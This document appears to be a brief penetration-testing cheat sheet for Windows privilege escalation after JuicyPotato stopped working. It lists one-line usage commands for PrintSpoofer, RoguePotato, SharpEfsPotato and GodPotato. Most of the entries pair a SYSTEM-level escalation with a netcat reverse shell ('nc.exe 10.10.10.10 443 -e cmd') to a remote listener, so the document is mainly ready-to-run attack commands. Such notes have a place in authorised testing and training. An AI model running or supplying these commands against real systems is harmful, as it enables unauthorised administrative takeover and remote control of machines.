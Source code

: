 JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, PrintSpoofer, RougePotato, SharpEfsPotato, GodPotato can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access. 


# PrintSpoofer Priv Esc Tool

1. Very simple tool, Just execute the exe with the command you would like to run:
   `c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"`

# RoguePotato

1. test
   `c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999`

# SharpEfsPotato

1. this will execute commands as system admin, this command outputs the `whoami` command to a file so we can visualise it, we could also use this to generate a rev shell as admin
   `SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"`

# GodPotato

1. this is a simple command that will execute commands as admin
   `GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"`
